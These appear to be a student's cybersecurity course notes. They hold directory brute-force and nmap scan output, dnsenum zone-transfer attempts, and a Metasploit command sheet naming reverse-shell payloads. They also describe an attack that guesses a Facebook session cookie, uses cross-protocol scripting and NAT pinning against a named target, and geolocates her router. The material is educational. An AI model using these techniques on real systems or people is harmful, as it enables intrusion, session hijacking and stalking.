            /exams                (Status: 200) [Size: 16581]
            /CHANGELOG            (Status: 200) [Size: 115785]
            /graduation           (Status: 200) [Size: 16314]
            /COPYRIGHT            (Status: 200) [Size: 1481]
            /batch                (Status: 403) [Size: 12123]
            /enrollment           (Status: 200) [Size: 12318]
            /Repository           (Status: 403) [Size: 298]
            Progress: 22669 / 87665 (25.86%)                                                                       ^C
            [!] Keyboard interrupt detected, terminating. 
            # We understand, there's no need to proceed forward
            ```
2. Exercise 2
    - This guy got Anna's boyfriend facebook cookie in this way:
        - Cookies are crafted using
            1. IP address (32 bit)
                - Found using a simple crafted website that catches IP address of people visiting it (send website in chat and do some social engineering)
            2. Epoch (when user logs in) (32 bit)
                - Found through Facebook chat; ask facebook every second who is online so you will get when the user logged in (epoch)
            3. Microseconds of epoch (32 bit)
                - `-12 bits` of randomness because microseconds use just 20 bits maybe?
            4. Random value (64 bit)
                - Guessed in some strange way because is got xoring epoch and stuff
        - Cookie entropy is so reduced to 20 bits that are more or less a million cookies; easy to bruteforce
    - Then he sent Anna a link to a host and used Cross-protocol scripting (XPS) to gain access to her network
        - XPS: use javascript to make the browser do an HTTP request to a service defined who is not running HTTP (IRC for example) but has the "newline" thing (newlines are used to define the message) so that the IRC server "discard" HTTP request directives and just interprets IRC directives
            ```
            POST / HTTP/1.1
            Host: irc.test.org:6667
            ...
            ...
            USER samy samy samy samy
            NICK samy
            JOIN #hackers

            ....
            ....
            ```
        - NAT pinning: using IRC DCC (direct connection IRC) encapsulated in the thing above we will open a port (whatever port we want) on the router of Anna because we are fooling the router
    - Geolocation
        - Through the method above we gain information about Anna network (especially her router)
        - We could try performing default credentials auth but instead we will do a simple XSS to make Anna look at the information table of her router for the router's MAC address and send this to us
        - This MAC addres will be used by us to get the coordinates of the router of Anna, this because Google Maps other than photos of streets collects also SSID and MACs of wireless networks (now no more possible)
3. Exercise 3
    - [Google](https://www.google.com/search?q=luigi+v+mancini&ei=r10-YKSfGJPYkwXiiZrgBQ&start=10&sa=N&ved=2ahUKEwjkspaI-pHvAhUT7KQKHeKEBlwQ8NMDegQICRBR&biw=1896&bih=929)
    - [OSINT framework](https://osintframework.com/): People search engines -> General people search -> ALL
4. Not useful
5. Useful resource Archive.org but nothing interesting was found for https://cybersecurity.uniroma1.it/
6. New google hacking database: https://www.exploit-db.com/google-hacking-database
    - Useful for searching vulnerable services through google
7. Exercise 7
    - https://www.iana.org/whois?q=cybersecurity.uniroma1.it
    - https://search.arin.net/rdap/?query=151.100.17.12
8. Use `dig` instead:
    ```
    ╭─myasnik@kitsune in sapienza-notes-cybersecurity on  master [!?] took 41s
    ╰─❯  dig www.google.com
    
    ; <<>> DiG 9.16.12 <<>> www.google.com
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 22860
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
    
    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4000
    ;; QUESTION SECTION:
    ;www.google.com.                        IN      A
    
    ;; ANSWER SECTION:
    www.google.com.         25      IN      A       142.250.180.132
    
    ;; Query time: 3 msec
    ;; SERVER: 137.204.25.71#53(137.204.25.71)
    ;; WHEN: mar mar 02 17:15:22 CET 2021
    ;; MSG SIZE  rcvd: 59
    ```
9. Traceroute usage
    ```
    ╭─myasnik@kitsune in sapienza-notes-cybersecurity on  master [!?]
    ╰─❯  traceroute cybersecurity.uniroma1.it
    traceroute to cybersecurity.uniroma1.it (151.100.17.12), 30 hops max, 60 byte packets
     1  _gateway (10.201.255.254)  1.263 ms  1.049 ms  1.248 ms
     2  137.204.20.122 (137.204.20.122)  2.593 ms  2.404 ms  2.613 ms
     3  192.12.77.82 (192.12.77.82)  4.900 ms  4.889 ms  4.325 ms
     4  192.12.77.206 (192.12.77.206)  6.047 ms  6.035 ms  5.073 ms
     5  192.12.77.205 (192.12.77.205)  6.013 ms  6.001 ms  5.991 ms
     6  137.204.2.17 (137.204.2.17)  6.389 ms  5.894 ms  5.758 ms
     7  ru-unibo-rx1-bo1.bo1.garr.net (193.206.128.125)  5.011 ms  5.696 ms  5.316 ms
     8  rx2-bo1-rx2-rm2.rm2.garr.net (90.147.80.33)  10.206 ms  10.491 ms  10.478 ms
     9  rx1-rm1-ru-uniroma1.rm1.garr.net (193.206.132.198)  11.003 ms  10.988 ms  10.437 ms
    10  nat-castore.uniroma1.it (151.100.70.13)  11.477 ms  20.841 ms  20.830 ms
    11  * * *
    12  151.100.254.250 (151.100.254.250)  20.790 ms  20.779 ms  20.770 ms
    ```
10. Too lazy

### Homework 2

1. Execise 1
   1. Host discovery: `nmap -sn 192.168.1.1/24`
      - [More info](https://nmap.org/book/host-discovery-techniques.html)
   2. Port scanning on one host: `nmap -sS scanme.nmap.org`
      - Result
        ```
        Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 10:27 CET
        Nmap scan report for scanme.nmap.org (45.33.32.156)
        Host is up (0.18s latency).
        Other addresses for scanme.nmap.org (not scanned): 2600:3c01::f03c:91ff:fe18:bb2f
        Not shown: 993 closed ports
        PORT      STATE    SERVICE
        22/tcp    open     ssh
        80/tcp    open     http
        135/tcp   filtered msrpc
        139/tcp   filtered netbios-ssn
        445/tcp   filtered microsoft-ds
        9929/tcp  open     nping-echo
        31337/tcp open     Elite

        Nmap done: 1 IP address (1 host up) scanned in 3.96 seconds
        ``` 
      - [More info](https://nmap.org/book/man-port-scanning-techniques.html)
   3. Stack fingerprinting: `nmap -O scanme.nmap.org`
      - Result
        ```
        Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 10:32 CET
        Nmap scan report for scanme.nmap.org (45.33.32.156)
        Host is up (0.17s latency).
        Other addresses for scanme.nmap.org (not scanned): 2600:3c01::f03c:91ff:fe18:bb2f
        Not shown: 993 closed ports
        PORT      STATE    SERVICE
        22/tcp    open     ssh
        80/tcp    open     http
        135/tcp   filtered msrpc
        139/tcp   filtered netbios-ssn
        445/tcp   filtered microsoft-ds
        9929/tcp  open     nping-echo
        31337/tcp open     Elite
        Aggressive OS guesses: Linux 4.15 - 5.6 (93%), Linux 5.3 - 5.4 (92%), Linux 2.6.32 (92%), Linux 5.0 - 5.3 (92%), Linux 3.1 (91%), Linux 3.2 (91%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (90%), Linux 5.0 (90%), Roku 2 XS media player (Linux 2.6.32) (90%), Linux 5.4 (90%)
        No exact OS matches for host (test conditions non-ideal).
        Network Distance: 13 hops

        OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 8.65 seconds
        ```
      - [More info](https://nmap.org/book/osdetect.html) 
   4. Version scanning on a single port: `nmap -p 22 -sV scanme.nmap.org`
      - Results
        ```
        Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 10:36 CET
        Nmap scan report for scanme.nmap.org (45.33.32.156)
        Host is up (0.17s latency).
        Other addresses for scanme.nmap.org (not scanned): 2600:3c01::f03c:91ff:fe18:bb2f

        PORT   STATE SERVICE VERSION
        22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
        ```
      - [More info](https://nmap.org/book/vscan.html) 
   5. Vulnerability scanning on a port: `nmap -p 22 --script vuln scanme.nmap.org` (maybe?)
      - Results
        ```
        Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 10:42 CET
        Nmap scan report for * (192.168.*.*)
        Host is up (0.00028s latency).

        PORT   STATE SERVICE
        80/tcp open  http
        |_http-csrf: Couldn't find any CSRF vulnerabilities.
        |_http-dombased-xss: Couldn't find any DOM based XSS.
        | http-enum:
        |_  /robots.txt: Robots file
        | http-slowloris-check:
        |   VULNERABLE:
        |   Slowloris DOS attack
        |     State: LIKELY VULNERABLE
        |     IDs:  CVE:CVE-2007-6750
        |       Slowloris tries to keep many connections to the target web server open and hold
        |       them open as long as possible.  It accomplishes this by opening connections to
        |       the target web server and sending a partial request. By doing so, it starves
        |       the http server's resources causing Denial Of Service.
        |
        |     Disclosure date: 2009-09-17
        |     References:
        |       http://ha.ckers.org/slowloris/
        |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
        |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
        MAC Address: *

        Nmap done: 1 IP address (1 host up) scanned in 1135.75 seconds
        ```
      - [More info](https://nmap.org/book/man-nse.html) 
2. Nmap has a list of stack fingerprinting techniques a lot bigger than siphon 
   - Because
     - It's 10 years that siphon is not updated
     - Everyone could add fingerprints to namp database (i think)
     - Active fingerprinting has a lot more possibilites than passive
   - Lists
     - [Nmap](https://nmap.org/data/nmap-os-fingerprints)
     - [Siphon](https://github.com/unmarshal/siphon/blob/master/osprints.conf) 
3. `nmap-services` is a mapping of known ports to their services, `nmap-service-probe` is more like a "i test this port and match the correct service of my db based on the response"
4. No services are listed on my machine
5. Nmap scan inside metasploit saving results in database
    ```
    sudo msfdb init
    msfconsole

    msf6 > db_nmap scanme.nmap.org
    [*] Nmap: Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 05:30 EST
    [*] Nmap: Nmap scan report for scanme.nmap.org (45.33.32.156)
    [*] Nmap: Host is up (0.17s latency).
    [*] Nmap: Other addresses for scanme.nmap.org (not scanned): 2600:3c01::f03c:91ff:fe18:bb2f
    [*] Nmap: Not shown: 993 closed ports
    [*] Nmap: PORT      STATE    SERVICE
    [*] Nmap: 22/tcp    open     ssh
    [*] Nmap: 80/tcp    open     http
    [*] Nmap: 135/tcp   filtered msrpc
    [*] Nmap: 139/tcp   filtered netbios-ssn
    [*] Nmap: 445/tcp   filtered microsoft-ds
    [*] Nmap: 9929/tcp  open     nping-echo
    [*] Nmap: 31337/tcp open     Elite
    [*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 8.36 seconds
    msf6 > hosts 

    Hosts
    =====

    address       mac  name             os_name  os_flavor  os_sp  purpose  info  comments
    -------       ---  ----             -------  ---------  -----  -------  ----  --------
    45.33.32.156       scanme.nmap.org  Unknown                    device         

    msf6 > services 
    Services
    ========

    host          port   proto  name          state     info
    ----          ----   -----  ----          -----     ----
    45.33.32.156  22     tcp    ssh           open      
    45.33.32.156  80     tcp    http          open      
    45.33.32.156  135    tcp    msrpc         filtered  
    45.33.32.156  139    tcp    netbios-ssn   filtered  
    45.33.32.156  445    tcp    microsoft-ds  filtered  
    45.33.32.156  9929   tcp    nping-echo    open      
    45.33.32.156  31337  tcp    elite         open 
    ```
6. Results are the same
    ```
    ╭─myasnik@tanuki in ~ took 3s
    ╰─❯  nc scanme.nmap.org 80
    a
    HTTP/1.1 400 Bad Request
    Date: Thu, 04 Mar 2021 10:05:38 GMT
    Server: Apache/2.4.7 (Ubuntu)
    Content-Length: 306
    Connection: close
    Content-Type: text/html; charset=iso-8859-1

    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>400 Bad Request</title>
    </head><body>
    <h1>Bad Request</h1>
    <p>Your browser sent a request that this server could not understand.<br />
    </p>
    <hr>
    <address>Apache/2.4.7 (Ubuntu) Server at scanme.nmap.org Port 80</address>
    </body></html>
    ╭─myasnik@tanuki in ~
    ╰─❯  telnet scanme.nmap.org 80
    Trying 45.33.32.156...
    Connected to scanme.nmap.org.
    Escape character is '^]'.
    a
    HTTP/1.1 400 Bad Request
    Date: Thu, 04 Mar 2021 10:05:41 GMT
    Server: Apache/2.4.7 (Ubuntu)
    Content-Length: 306
    Connection: close
    Content-Type: text/html; charset=iso-8859-1

    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>400 Bad Request</title>
    </head><body>
    <h1>Bad Request</h1>
    <p>Your browser sent a request that this server could not understand.<br />
    </p>
    <hr>
    <address>Apache/2.4.7 (Ubuntu) Server at scanme.nmap.org Port 80</address>
    </body></html>
    Connection closed by foreign host.
    ```
7. DNS enumeration with `dnsenum`
    ```
    ┌──(kali㉿kali)-[~]
    └─$ dnsenum scanme.nmap.org
    dnsenum VERSION:1.2.6

    -----   scanme.nmap.org   -----


    Host's addresses:
    __________________

    scanme.nmap.org.                         1523     IN    A        45.33.32.156


    Name Servers:
    ______________

    scanme.nmap.org NS record query failed: NOERROR
                                                                                                                                                                        
    ┌──(kali㉿kali)-[~]
    └─$ dnsenum nmap.org                                                                                                                                           255 ⨯
    dnsenum VERSION:1.2.6

    -----   nmap.org   -----                                                                                                                                             
                                                                                                                                                                        
                                                                                                                                                                        
    Host's addresses:                                                                                                                                                    
    __________________                                                                                                                                                   
                                                                                                                                                                        
    nmap.org.                                1254     IN    A        45.33.49.119                                                                                        

                                                                                                                                                                        
    Wildcard detection using: esykzccfrcuo                                                                                                                               
    _______________________________________                                                                                                                              
                                                                                                                                                                        
    esykzccfrcuo.nmap.org.                   3600     IN    A        45.33.49.119                                                                                        

                                                                                                                                                                        
    !!!!!!!!!!!!!!!!!!!!!!!!!!!!                                                                                                                                         
                                                                                                                                                                        
    Wildcards detected, all subdomains will point to the same IP address                                                                                                
    Omitting results containing 45.33.49.119.                                                                                                                           
    Maybe you are using OpenDNS servers.                                                                                                                                
                                                                                                                                                                        
    !!!!!!!!!!!!!!!!!!!!!!!!!!!!                                                                                                                                         
                                                                                                                                                                        
                                                                                                                                                                        
    Name Servers:                                                                                                                                                        
    ______________                                                                                                                                                       
                                                                                                                                                                        
    ns5.linode.com.                          102      IN    A        162.159.24.25                                                                                       
    ns2.linode.com.                          54       IN    A        162.159.24.39
    ns4.linode.com.                          133      IN    A        162.159.26.99
    ns1.linode.com.                          250      IN    A        162.159.27.72
    ns3.linode.com.                          67       IN    A        162.159.25.129

                                                                                                                                                                        
    Mail (MX) Servers:                                                                                                                                                   
    ___________________                                                                                                                                                  
                                                                                                                                                                        
    aspmx.l.google.com.                      293      IN    A        173.194.69.27                                                                                       
    alt1.aspmx.l.google.com.                 293      IN    A        209.85.233.27
    alt2.aspmx.l.google.com.                 293      IN    A        142.250.4.27
    aspmx2.googlemail.com.                   293      IN    A        209.85.233.27
    aspmx3.googlemail.com.                   293      IN    A        142.250.4.27

                                                                                                                                                                        
    Trying Zone Transfers and getting Bind Versions:                                                                                                                     
    _________________________________________________                                                                                                                    
                                                                                                                                                                        
                                                                                                                                                                        
    Trying Zone Transfer for nmap.org on ns5.linode.com ... 
    AXFR record query failed: NOTIMP

    Trying Zone Transfer for nmap.org on ns2.linode.com ... 
    AXFR record query failed: NOTIMP

    Trying Zone Transfer for nmap.org on ns4.linode.com ... 
    AXFR record query failed: NOTIMP

    Trying Zone Transfer for nmap.org on ns1.linode.com ... 
    AXFR record query failed: NOTIMP

    Trying Zone Transfer for nmap.org on ns3.linode.com ... 
    AXFR record query failed: NOTIMP

                                                                                                                                                                        
    Brute forcing with /usr/share/dnsenum/dns.txt:                                                                                                                       
    _______________________________________________                                                                                                                      
                                                                                                                                                                        
                                                                                                                                                                        
                                                                                                                                                                        
    nmap.org class C netranges:                                                                                                                                          
    ____________________________                                                                                                                                         
                                                                                                                                                                        
    45.33.49.0/24                                                                                                                                                       

                                                                                                                                                                        
    Performing reverse lookup on 256 ip addresses:                                                                                                                       
    _______________________________________________                                                                                                                      
                                                                                                                                                                        
    119.49.33.45.in-addr.arpa.               86400    IN    PTR      ack.nmap.org.                                                                                       

    1 results out of 256 IP addresses.

                                                                                                                                                                          
    nmap.org ip blocks:                                                                                                                                                   
    ____________________                                                                                                                                                  
                                                                                                                                                                          
    45.33.49.119/32                                                                                                                                                      

    done.
    ```

## Lab

### Introduction

- Tor
- [Nmap](https://linux.die.net/man/1/nmap): use `man`
   - Ping scan (determine if hosts are online): `nmap -sn $ADDR` or `nmap -sn $ADDR/$NETBITS`
     - Stealth ping scan: `nmap -sS $ADDR` or `nmap -sS $ADDR/$NETBITS`
   - Port scan
     - Types
       - Full TCP connect: `-sT`
       - UDP scan (slow): `-sU`
       - TCP ACK scan (usefult for probing firewall filtering rules): `-sA`
     - Restrict port range: `-P $PORTSTART-$PORTEND`
   - Version detection: `-sV`
   - OS detection: `-O`
   - Save output to XML: `-oX $OUTFILE`
  - Searchsploit: search exploit for services and their version
   - Search for an exploit: `searchspolit $SERVICENAME`
   - Search for an exploit using Nmap scan file: `searchsploit -x --nmap $NMAPXMLFILE`
   - Then use Metasploit, if expolit doesn't exist in metasploit try manually searching for the exploit on the internet and running it
- Metasploit
   - Terminology
     - Module: standalone piece of code that extends metasploit
       - Exploit: code to gain access
       - Payload: piece of code that with the exploit gives access (or does something) to the target machine; **during exploits set the payload with** `set payload $PAYLOADNAME`
         - Singles: small self-contained code designed to take some single action
         - Stagers: implement a communication channel that can be used to deliver another payload that can used to control the target system
         - Stages: larger payloads that provide control of the target (meterpreter)
           - Staged
             - Send payload in stages
             - Less stable
             - Example: `windows/meterpreter/reverse_tcp`
           - Non-staged
             - Send payload all at once
             - Larger in size
             - Won't always work
             - Example: `windows/meterpreter_reverse_tcp`
       - Auxiliary: gather information
       - NOPS: no operation modules
       - Post exploitation: run on compromised machine to gain more things
       - Encoders: encode your payload
     - Session: connection between a target and the machine running metasploit
       - Allow for commands to be sent to and executed by the target machine
   - Interfaces
     - `msfconsole`: interactive CLI
     - `msfcli`: CLI
     - `msfvenom`: generate payload
   - Starting metasploit
     1. `service postgresql start` (optional)
     2. `msfconsole`
   - Core commands
     - `search $EXPLOITNAME`
       - `search platform:Windows`
       - `search type:exploit`
       - `search author:hd`
       - `search app:client`
       - `search name:ms08-067`
     - `show options`: show options for the selected exploit
     - `set $VAR`: set options listed before
     - `info`: information about exploit selected
     - `exploit`: run the exploit  
     - `use`: to select handler and exploit
   - Example run
     1. Search for exploit: `search $SERVICE`
     2. Setup exploit: `use $EXPLOITNAME`
     3. Set required parameters: `set $PARAM`
     4. Run exploit: `exploit` 

## Project

- [VM Design](https://docs.google.com/document/d/1UdlrZN7dEBfv3pqVtGeEr7SBBWnh-FlLJX1vWK0v52Y/edit#heading=h.25kulmm1aqhu)
- [Offensive report](https://docs.google.com/document/d/1BhjUuWReiJa7OTT687wBnWJ_hEuCVlCXPGE99uW1TCA/edit#heading=h.25kulmm1aqhu)